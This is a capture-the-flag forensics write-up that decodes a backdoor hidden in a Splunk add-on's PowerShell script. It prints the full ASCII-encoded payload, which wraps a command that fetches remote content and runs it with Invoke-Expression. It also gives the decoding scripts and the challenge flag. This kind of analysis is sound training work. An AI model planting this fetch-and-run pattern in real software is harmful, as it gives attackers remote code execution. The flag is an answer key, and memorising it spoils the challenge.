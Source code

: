 # Backdoored Splunk II ✅

## Challenge Description
> ![image](https://github.com/user-attachments/assets/ea8d26f3-a07c-42bf-ac20-777b1e1ab99a)



## Approach
1. This challenge was a bit daunting at first since it was my first time tackling it. However, after doing some Google search, I found that it was very similar to the [Backdoored Splunk](https://github.com/LazyTitan33/CTF-Writeups/blob/main/Huntress-CTF-2023/Forensics/Backdoored_Splunk.md) challenge from a previous CTF event.

2. The first clue was hidden in the dns-health.ps1 file. This PowerShell script contained some unusual content:
   
   ![image](https://github.com/user-attachments/assets/e697f6f0-5f19-4f37-be67-715191cc9e1e)

   Clearly, the list of values looked like ASCII codes. Time to decode this mysterious string! 

3. To decode the ASCII values, I wrote a simple Python script:
   
   ```pyhton
   import base64

   # The list of ASCII values from the PowerShell script
   ascii_values = [
       336 , 79 ,83 , 86, 69 ,82 ,32, 61,32,39 , 105, 101, 120 , 32 , 40 ,91 ,83 , 121 , 115 , 116,101 , 109, 46,84 ,101 ,120 , 116 ,46,69 ,110 ,99, 111 , 100, 105 ,110 ,103 ,93, 58 ,58 ,85, 84,70 , 56,46,71 ,101          ,116,83,116, 114 , 105 , 110, 103 ,40 , 91 , 83 ,121 , 115 ,116, 101, 109 , 46 ,67 ,111, 110,118 , 101, 114 ,116 , 93, 58 ,58, 70,114 ,111, 109 ,66,97 , 115, 101,54, 52 , 83 , 116 , 114 ,105 , 110,103,40 ,34,73,121 , 65 , 107,85, 69 , 57 , 83,86 ,67 ,66 ,105,90 ,87, 120, 118 , 100,121, 66,112 ,99,121 , 66 ,107 ,101, 87 , 53 , 104,98 ,87 , 108 , 106, 73 , 72 , 82 , 118 ,73, 72,82 , 111, 90 , 83, 66, 121 , 100 , 87, 53 , 117 ,97 , 87 , 53 , 110, 73,72 ,78, 108 ,99, 110 , 90 , 112, 89,50 ,85 , 103, 98 ,50 ,89,103 , 100,71,104 ,108,73, 71 ,66 , 84, 100, 71, 70 , 121 , 100 ,71 , 65, 103, 89, 110,86,48, 100,71 , 57, 117 , 68, 81, 112,65 ,75 , 67,82,111 ,100 ,71 ,49 , 115 ,73 , 68,48,103, 75 ,69, 108,117,100, 109 ,57,114 , 90 , 83 , 49,88, 90 ,87,74,83,90, 88, 70, 49, 90,88, 78 ,48, 73,71 ,104 ,48 ,100,72 , 65 , 54 ,76, 121, 57,106 , 97,71, 70,115,98 ,71, 86 ,117 , 90, 50,85 ,117,89 , 51 ,82,109,76 ,109, 100, 104,98 ,87 ,86, 122 ,79 , 105, 82 ,81 ,84 , 49,74, 85 , 73,67,49 ,73 , 90 ,87 ,70,107 , 90, 88 , 74,122 ,73,69, 66 ,55 ,81 ,88 , 86 ,48 ,97 ,71 ,57 , 121 ,97,88, 112,104, 100 ,71 ,108, 118,98,106 , 48 ,111,73 ,107, 74, 104,99,50 ,108,106,73,70, 108 , 116, 82,109,112 ,104, 77 ,108, 74 ,50 ,89,106 ,78 , 74 ,78,109 ,82, 72 , 97,72, 66, 106 ,77 , 84 ,108 ,119, 89 , 122,69, 53,77 , 71 , 70 , 72 ,86, 109,90, 104 , 83 , 70,73,119 ,89 , 48, 89 , 53 ,101 ,108, 112, 89 , 83 , 106,74 , 97, 87 ,69,112 , 109 ,89 ,122, 74,87 ,97, 109,78, 116, 86,106 , 65, 105,75, 88 , 48, 103 , 76,86 ,86 ,122, 90 , 85,74 , 104 ,99, 50,108, 106 ,85, 71, 70 ,121,99,50 , 108 , 117 , 90,121 , 107 ,117, 81,50 ,57,117, 100, 71 , 86 , 117, 100 , 65, 48 , 75,97 , 87,89 ,103, 75 ,67, 82 , 111,100 ,71 , 49, 115 ,73 ,67,49 ,116 , 89 , 88, 82,106 ,97 , 67 , 65,110, 80, 67 , 69 , 116 , 76,83 , 103, 117 , 75 ,106 , 56 ,112 ,76 , 83,48,43,74,121 , 107 ,103 , 101,119 ,48 ,75, 73,67 , 65 ,103,73 , 67 , 82, 50,89 ,87, 120,49 ,90 ,83, 65 , 57 , 73, 67, 82, 116 ,89, 88 , 82,106 ,97 ,71, 86,122, 87, 122,70,100 , 68, 81 ,111,103 , 73 ,67,65 , 103 , 74 , 71, 78 ,118, 98 ,87 ,49, 104 ,98 ,109 ,81, 103,80 , 83 , 66, 98 ,85 , 51 , 108, 122 , 100 ,71,86, 116, 76,108 ,82, 108 , 101,72,81,117 ,82,87 ,53 ,106 ,98 , 50, 82 , 112 ,98,109 ,100,100 , 79 , 106 , 112 ,86 ,86 , 69 , 89,52 ,76,107 , 100,108, 100 , 70, 78,48 ,99,109 , 108,117 , 90 , 121, 104 , 98 , 85, 51, 108 ,122, 100, 71, 86, 116 , 76 , 107, 78 ,118 ,98, 110,90, 108 , 99, 110,82,100, 79,106,112, 71,99,109, 57, 116 , 81 , 109 , 70 , 122 , 90 , 84,89 , 48 , 85, 51 , 82,121 , 97 ,87,53, 110,75,67,82 ,50,89 , 87 , 120 , 49 ,90 , 83 , 107 ,112 ,68, 81,111, 103 , 73, 67, 65 ,103 ,83 ,87, 53 ,50 , 98 , 50, 116 , 108, 76,85,86 , 52 ,99 ,72, 74 ,108, 99,51 ,78, 112 ,98, 50 , 52 , 103, 74, 71, 78,118, 98, 87 , 49 ,104 ,98, 109 ,81 , 78 ,67 ,110,48 , 112 , 34,41, 41 , 41,39
   ]

   # Decode the ASCII values to form the PowerShell command string
   ascii_decoded_string = ''.join(chr(c) for c in ascii_values)
   print("Decoded ASCII String:")
   print(ascii_decoded_string)
   ```

5. The decoded string revealed a PowerShell command with a Base64 encoded segment inside it.

   ![image](https://github.com/user-attachments/assets/a14277f0-a924-4b45-b1cb-c132a90fbeb5)

6. Here’s the Python script to be added to the previous one to extract and decode the Base64 string embedded in the PowerShell command

   ```python
   # Extract the Base64 encoded part from the decoded ASCII string
   base64_encoded_part = ascii_decoded_string.split('Base64String("')[1].split('")')[0]

   # Decode the Base64 string
   decoded_base64 = base64.b64decode(base64_encoded_part).decode('utf-8')
   print("\nDecoded Base64 Content:")
   print(decoded_base64)
   ```

7. The Base64 part decoded into yet another PowerShell command that made a web request using a Basic Authorization header.

   ![image](https://github.com/user-attachments/assets/d4887b97-d7db-4464-8af3-271c44d395e5)

   The PowerShell script performs the following actions:
   - Web Request: Sends a request to the challenge URL using the Authorization header.
   - Response Handling: If the response contains an HTML comment (<!-- ... -->), it captures and decodes the content.
   - Execution: It uses Invoke-Expression to execute the decoded command.

9. I put it to the test by sending the request using `curl`:

   ![image](https://github.com/user-attachments/assets/353ec26f-f6be-41cc-9325-8961b3625343)

   The response contained a Base64 encoded string. I grabbed this string and decoded it using:

   ```
   echo "ZWNobyBmbGFne2UxNWE2YzAxNjhlZTRkZTczODFmNTAyNDM5MDE0MDMyfQ==" | base64 -d
   ```

   And booomm, the flag was revealed!
   
   ![image](https://github.com/user-attachments/assets/64a4aba5-e599-4793-81a4-03cc6d4ada51)
   
## Flag: 
flag{e15a6c0168ee4de7381f502439014032} 



   



